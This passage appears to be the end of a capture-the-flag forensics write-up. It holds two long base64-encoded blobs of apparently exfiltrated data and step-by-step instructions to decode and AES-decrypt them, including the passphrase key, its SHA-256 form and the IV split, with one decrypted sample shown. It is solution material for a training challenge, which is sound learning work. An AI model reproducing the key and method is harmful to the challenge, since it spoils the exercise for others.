ZEQ1eUJHaXV4TFh3VGE1UTZNWXRJbXRYc29RL3pRL0RteFF2VndPRk5xVHRscElnQzByR1hqcVF6bTdPVCthUUZKL3pEcFVqVHNRMW54ZXBOYTFhSkU5VXl5L3BtVXFLR3pWcTc1RXpORXF4d280TTJ3M21BK09paW5nQ0xEZktmcGZyR0JHZ2Y1WjQvQUl3cXZsc2R6NlhTcEZMSkhLM0pLMGh4UUJYK2I0aG1NK25BZCtiUXI5aGVtMXgwUVNLQkVnNFFMZ2J0ejVLbW5DL3JSY3FRVkVvaHViamxzdE96Vm5LOG54UDNRL3BQRkczeWpaRUFLdURBeGdVYWlMN2xOYXVXbHFQSFZ3MUxrRFFXZEZRZGZ0Zy80d0JWZXZtcUNrWFRieStrZm9oWE5OU0dOa0kyRUwyRndic1N3Y2tGSlN1bC9kdWRQMVlpQzVEU09tTFJMak5EKy92aGhhajZNUnkwdnZDOU1ZNnRZMGE3VkhEb0NYYllxWG0rMzZBSVQ0TXE2N2xDZWcvUUhwWFY5ZkNmYXdKSWJFZkR3YU9VbVJnTzY4bmFKaHlDdDBWZmlSeUl1anpTb2hjVGZFWEhqdnhsazRRQlNHREZUYWpiaUh3dVdtbmhCU2dYcFFveld1WmVVcXdRbXVNY0FCdmk4RFY1clFJREUrL3NJVmtDTTFuaVoweHBYM0txbDVRZU5CTnJEc2tQQzBaZ0hkdjFqT25wU0I0aWhVSFA4QTVtUG5qQXV2SzdaVEdUbS8wQWYxbk14ZWttTmI4ZmlPdXZkS1BGZFEzV2I5OUQ5WDJhc2RqWU1GeWtBSmYrOGd6U3dVNmlnOGtGbldsbG0zbDRBeDFjV1JUY0V1WHdDT2JOT3dKd3dha0prek9BVWc5V1J2dHVmWm82bG44ekVTRzJmRVBuUW9keTFkNjNOMnFBOFk3Tk93WTBRRjZVWWZWbVNRTXJ0cG95My9OeFJrNkNoYTNvYkxXU0F6czZJVjZGRDJaQWt2VStsK1hvckswSFdEeW9oZnBRenNLWXp1NFZzQkZjeEl4TUZhSGZOTzdtV1d6aHNIa2dIZmdIOVZmZmtxOWhqUUdUenB5OE5VblBybFFnbG1KUk53VHl1MnhKSmN2VVRhMk5rSXZBN0c4ODdaYVJEd1VlMkROOTV5OURUTloxZGRLRVZ1ZEppVDF0ajRQZXNsV21zUnFxMnJUVGpQbG4zMEgybTRyQ1liN1VmZ3RBdlBPNlNrNkpHVDFsMElDRFNUYTN5bVhJUDhWMHppKzZoRFhGNXU5eG5hMVZDN0FtUkhWcUl2OHpDV1VUR1dSa3h1Qk9XVDU1MGc3cjNoamVuSW1ENVpDTWpvRXhyUVJZVkVCR3pJdnpKa0JsVFFsTldVTzh4dDRnRDZyc0ZvWFVpNFF6b2xWb2Q1Q2JmL24vTXJNVGxqREFNb1RoUXAvd24rYjJsdHF4aTRUaWpTTFp6ZGlOQ01OcUxsalhuK0wvckNWU3ZkR0RVSmd0WG9QTGpoc3hFc0xxZGlMWW94MWNrYkJzbFV6Uk4xbHNOUG12ODFhcnFEQTRQWnVRYlNCYms1U3hjUjdFZXF1c3VhSjUwaWl1a2FrclZxN3ovbXVlTnIvK3B5UjMyUnhocUxNT3BRem93Q1ZMd0NCYm12LzhaM3BuWklCSFhPdFp4amw3U0FFZkNtSkt0bXk5TUhaUExIL3hxTWZnZFUzUkRkNTJONXREWE5oV05aZEwwdHdSN21YZEJPeVE4SE9RMmhmRlIwR1dKZ2xvckcwMEgzeUoraWE5RStqMzhWL3pQUkwvTFoxcUJ2WTlXRkpBbnlvU1E9PQ==

base64 4:
bk8zVGkzeDhoR1BYMjl5S1MvUHJEdHFTaVBvUlE1Q05xNGFkNS8xRGE3U1hzenBCeDJOamNuc1lGRE1INEdtRERxYkNMc1BsWFlaT2RXbmpYV1l1RGpHenUvdjlkMStCSnV1VC91a1lZVjlGUjR3NVR1TklVOVVBZExkMktDQnRqa0xjSnlpUW9oc1F0REowNS9COC9wQjlSK0EvL20rMGt0RnBhYWxMQW9YeG5teEJ0am81QkphMTExSmdFcXI0THcwSlB0OHg5dk8wNXNrTk92WkczUVNNZ2JUSTlMdGlpL2E4Z0t3NlRCemkybXM4WEVhTlpoQWlEMU5nMTZad0JJVCtSZEN5Wlg1Rm5hUHczcEZDZFVhbEFnRDdraWd4L29XTTVqOVBZWEl3dFBOQk44Tkx6bzNGd054OU9oYlNGSEhvUXdabXdzT3l6L0xsR0g0Zy9UbWRkVlByME1BZnVGNmY0WmptOExCRE40Y2ZzamRwVmJ2MHR1dDc2ZjR2MGQzSVFZT2FadmoxdzJrNm05MTAxcHhJM1I4REw1WWVXRHR6bC9QZUpxU2E3Qis1KzJvSHl0M3FsY1kwaUVoZzJ0ekYyaW9qYVlrSUZjNXVXMmtqUk9rMzFVcVFGengyTzN0c21KTU80L1U0S2VrM3dEQnRESTRiaG5rRjFTZnVKN0ZQVmtxU3R1RVE5Z2tsc0pNS3o5YnoxUzRLOXNpZnhoT0JTVS84ZmFweFRVQ0o5YkprOUt1c2JEZzZyaTQ3Wk1JbVFVRXpxV2ZaU2wwYTZ0VE5TUm40N3FOOFJpbjh4ZzhCTnZyT0FsUHdYMjdxcytqeExJTDFmM1FDcWlNb01mOU4xaTIrT1FneE5TT0pDVzdjb05WSEk4L2JERWh0aWhPa3V0bC85WGZjL2lKVWV1TDVXclFESHp6Mzg2azN2UWxHQzFTQ3ppVHBoRFM2VTFmeXNHSXNINzlIOENYakl4RjBLR0x4RE5YNFE1Y2pGczZSWjJ3K3Exd3BUTjBsclpad3NQbUV1YUdjZ0JoUXNBbW1LQ3AxODhSSUFNK2NaVTV1Q2NBZXJ4dytyaDFkbWk0elVmQUdRM2tqb2RXMTBuaUhPend0UGlDazUycXlmWWlrblJKdW12SDRMbytsb1BXRjNJOWFQTkFBUU94VUE2UkMvZkxwM0g0bkFiNTdmRksrcFRlcHcwc25IVzFuY2RDcjJyZUF1TmEwWFpidkVuK2RoeEdUUU95UTZlakNjSnhUZm1lSEJzZ1phWGNzVUZ6SkZ5N2F1Vk1hYnprZUFTOHNnQWhNeDRzTTAwZlNubGUyOG8xQUdtNEF2eU91VW85eXNtY0ZiN3FyVTZhWldtSVJqdkpXdFRuLzRraC84UUQyc3V6UzlJK2pxWkw0RWFqNzNNRFFDMmhOMmljRFlKWFNnUDZ3b1hvR256RS9ZOERxR2RDY2NsdWJwMVRxcUlodEVYVFM1N3Z0Q2NYeU9VQ1VRNWt2U0tyUkdNRWRrYlpQaHVVN1J0SW9SYlhEUUZtTW5YNmdnMWR6YUZiOTJTR29IZ3VseVY3KzRYYUJRK0FtM1ZDdXg4aXNOWHZWTzZwSDFpWDNIaUFxTlIyT3hYc0J6V2xlME90M3pzTGN1ZzNpNWhUZGZib3BCaS93bWt4KzhocHljYnhzOWJCbEVneENiUlVwRUhyZVpoL0lVY3J4ZXNGYmlyeERBL25icjBmSVAwT2VlOEFXRWVUSjJNZVNUeCt4dkZwcWorVUE0S1l5ZGZQOVJMdWJQcndvTTRJaFIrL0VvQnBTVWxPWEZ3NXNVTnEzQVdDeDVHdFdiWHR2eEt2Zy9NVi9acFJNSkdXcW1IUWZVaTdBc0xTenhnRk9Icm1lMDhTZTNlWVVLcHlzMzhaSXg1STlNRjJRd2YxQ01oaVJ4a0xnTldDT0RjYmY0WU16R2YwTllKT05TWkV2dWYrRWtubWg1YU5OQzBtYiszRWs3dWxmVFlFMGhhMDJoUlk3Ty9odXp5bWZqNm8zTVd0YTk5R0kxSE9KdjNkcU5IYWNqOElTcEdjSTliTC9DamtxWUpqR2YreWEySVhQODhkc3ptN2N5cUplUDZENCtTR211YXlJcWtmK0ZqVk9vMVpWc2liZnVUTXIwd1laemF6RW1icERWc1U3d1J0cEsvTjNMZFV4MFhXTFJTZ0ZTNkNSVHFLc3pWRnlrTnFHeEYrdVBQM2Y1UGNqWmxjcGV1L1VqTlJEbVhoRjM3NnJTNzkrRE9wN015dXFhUVhKNlFzWENFVlhxbVArUnV2cHBoOHlWUHJxZ0pkc2lEOHdJZXNIR1k3Znl6QmtJVFZUYjl4M0s2YU9pZzJ2clJEOVYzYnJHbzBIZ1MrbnZ2N05zNnlobTlkNDNsSjRQL2xNN0s5L2pXZGVjUi9xRWVpclo5WXhwd28vaFhJR0J3cDZQZVFxVFFzQnBqRGpxZkxlaVp4M2lKSXE5Ly9TY3R6QTIzUHdDdXZLbGNYNFlmWDYvVlkvZWVFTCtzZlN6UncyZ0JibnBRR2ZHaGEzZmpmTUFpM0o1aHBhVGJFWnpGVzJmY2VFYzlnMTFESzdWVWtaNnNUd2lLTUxsU0hLN3VSelV0cTJ2bGJtRjhiNi90ajNHdEE4ZS9YTm9WeGhVQ1NMUWZleE4waTMySzFQdUwwaTNmdGtkOVJtcEEyelgwSjhoTm93cjlFZDBoVHk2Nys5azFlcU41MEFWRFBIY3BFbDl1N1k0eXJ2RGV1WFRjZU93d1hUQm16L1ltV0tERlBJcVRLYU0yUzhIQmFOV1BSZXNNeEJua0xJTHpuOTc0TEgydUIvZzFJdUFvNmlaTU53UnZCQjhiNW9UN213aFBsY29KdzRBdmdvSXFUbkJjWUFoSHFnR1BEVzIxN25rb2pmM3VJT01XbU0zbU9RWkNOM2QyUmY3Zzh3K0NYL3NBUjlPMEVPdXFNYXBoTG4wMlNMRHFMOTA2RXU3ZkxTVkFXVzRwY0dGMm1pZGcwMjhjQ0RibXlCZFdRdkJSeHBJK1pIc2U5U0xnaWIxTlUwaUJ5UHFSemhsVzdzN2xML3NYYUdIVk9iUkFZUWJYMXErcjBrRkxHYXF2V1h5VitTOWJCSXJXc01lRlBCNVBEQWE1QS8xa243clpqZnA5aWR4Zm9jQlhUd2luaHlOYTZzcE9FUm5jd1F4a0xrK2pRNWZ5SGN6UXVlOTdaU3E5eUVPQkt0SGJOYlRmc1NsL1hZTzZ5a1dYeCtLY3NiVTNBanlzbXhsKzduTVBHYmttMnU4ZDVEdU5lWlArNEllWEdYUndzL3ZlQWpiLzRCN3k5YkRNZm5wYlRoRmY1Z0VkdldMM1lGcmlFZEZhYjEzeVZTdk9ObXBQVlFwd1d2MWo5Z3lZS2xPMklpVVpuTU9MbjZ2QTB1L1ZuNWFOb2FuTkUwdWpVdDR4dEhOK0xLQXNUQ29aL3VlK1ZZTEFGcWFSTExCWnUvajQ3ZmFYVFZIR2Fub0ZlMWNNUXBKK0k4ZEV0V3lodU00M3F2NGsrekRITU1IelRtTnVTR3FwTmQ2YnRwVjJEcWVTdktKWCtyQzVWSnY3OXowU1FBRURIOW1NR1FJeExYK0xvQW0xcUxaU0hReko3T1RDRTVNVURiVEdSbkNoQitiRkgwM0QzVk1aaUIvaUZzaEI1UWtHdTBpNmtlMGdaOWlzbVFRbHpTdWRpcFhHbUFvNXlCbi92bzZTV1oxZStZUWdscG5OWHFYZDh1Nmd3aHJOcmF2RnBJSVJxdjByQy9oVXcyK0QyV3ZrMXpBNi9RR0JJNlNlVmRYY0hLQ21WaUdRQWJMVjErYnAwZzRzZmZRaGV2bUNkY1lUaktKTGVoTTVMWnRMRWRaVjVueUdVd0YrdDE0N3ZSdWlqZXNYTGVZR3p6Mm1xUnFGSjhIeTZsMDJsK3lQWlpFK2c0ZVM5eGNCVlBIZmpCaEdzVGdNRFVRMjZMbVplWnRELzh2UExRTEczWExRY1VqK3lrbzduT1VjSFlUY2wvaHFUZVRvWWRJdDV2SGZFMk5RL3J0aStZS25ET3dHNFVVYkJNNlV5OHRWdmpPNVJ0M2pxbXVINVY1Y3NlbElPSWFSZkd2dEdXaU01UGtEaXIrN0pUbUhDSHNvUlFRVXdPLzhneVBpMU82STZJVENIRS8rSGVYVGhKeFJVY09wWms3aGRBWUt2NXFPUlVvRC8rNlpTWTNuWW0rYU5tbU5oUldhaVk2a1JrTXYrdHpvNXo0YjNKYmJ1bTlwekx1V0dzSVFZT0J0bFQ1cGtaeTF1QUgxWTNVc042bFZsbWloNVM5MWFtWmZXUll5VUpxcHlxVXhaZFVlaVJ0VG5Ub0Z4RGJBa3h6SFlHZ2lhMlV2cC9iVityRGNUaVdrZ1JsRG5aZnAxZXNObTQ2bktsNUx3RjlxUHlYK290SFpFSmhBL011TTlDcCtxUTFLTDR4UnF4RzBTd2o0OHlsckxEalNHOG8rM0xqOUVwb2dWVldkRlBmc0JNRmVMMWwrQ3U5bVdFa3VoSEtqSTBzcnJFM3QvdW5PQWNsT0xwajhncjhJR3NnY1FVRHcvSVFhZ3RJRUZYWWFIRnFHM051cFZmMTlLUFNOWlN4ZW9QWnIzTDIyOW5HQTBQNzVRdU8zakJCZWY3YUZJRFplTUtRZ0lWZ3AydlRmTDcwQ3BFUFdlL3ZLWHEvbStUN0creW16NWdpMGFOMEkzaWNhWnhHeEF3YWtFalM3QXRjd2EvWWJZTHVqTk9DVjJIS2pxYXFFOVNyWnkrVnJHU0hYS0oyaEJETGF0dWl2OVVQZnBsS2VQejBUTWJsVmlERTgrRGFqSnl0R3A5eTdSVHptS1lDUVF1SUxwY09PUnVGbi9acFlPdmNlRWx2cGRaMVdWMFhqQVRKdXNGa0xqVmd5bnVrNW4rSlRFTkZWbnlpUnVZeDVsYTNzdU14OHRyU09aVWFaNGJrc3dyYVpoQmhHNDd0K084ZFpmTFYwTVFzcG9ZWERsOHRIOGN6N1I1NmxBa2RwdDU5cys1dlB0VUNzRjlaVHR5UUxFWEowcjQ0TDg3bDM1ZFFETUdoWDUvYktXa2JMcDhWbDRLYkl6TjIxalpRSU9YVUllbURaYThobDFnZkFPUzU1WGwzQmo4MkNHd1lJWkVxditXR1BvK0Yxcjc0TVpXU1BQNG1MYXBpVjl4SHc9PQ
```

> [!TIP]
> The below process can easily be done using a python script
> So you can simply ask any AI to create a script that can follow the given steps and just paste all the encoded string/hashes (like in an array) to decode them all at once.

**Follow the below steps as given to decode/decrypt the above strings:**

1. Grab encoded string to `cyberchef` and convert it in the following manner
   - `base64 -> base64 -> hex` --- grab the resulting string (hex)
     
1. Take first 32 elements from the resulted string from `step 1`
   For example:
   - Resulted string from step 1 : `b0e16ccd8f1d67c6b3d63f26089dca151284fa4be8c0df0a3c685a600b5461aa86a59f710db1b9b6e472d86ecd3339ae`
   - first 32 bits: `b0e16ccd8f1d67c6b3d63f26089dca15`
   - Why we're doing this because here the first 32 elements of the string acts as an IV for AES decryption.
1. Now the remaining part will go in the decryption box for AES decryption
1. The key for decryption will be same as our encryption key (`M4squ3r4d3Th3P4ck3tSt34lthM0d31337`) but in SHA-256 format (`b5f253f95311e41930daa10fc6ca5823a404df428c45dd5b350fccf36a20e846`)
   
1. Then do the AES decryption by giving the key and IV
   

We can see the the output shows `magic_hostname=DESKTOP-I6C57M` meaning we were able to decrypt the encoded string.

> [!IMPORTANT]
> Now do the same thing to each of them and you'll find the final flag.
> Nahh I ain't giving the final flag here please do something by your own.

And YAYYY We found the final flag


Thus The Challenge was Solved!

---

Happy Hacking 😉😎!
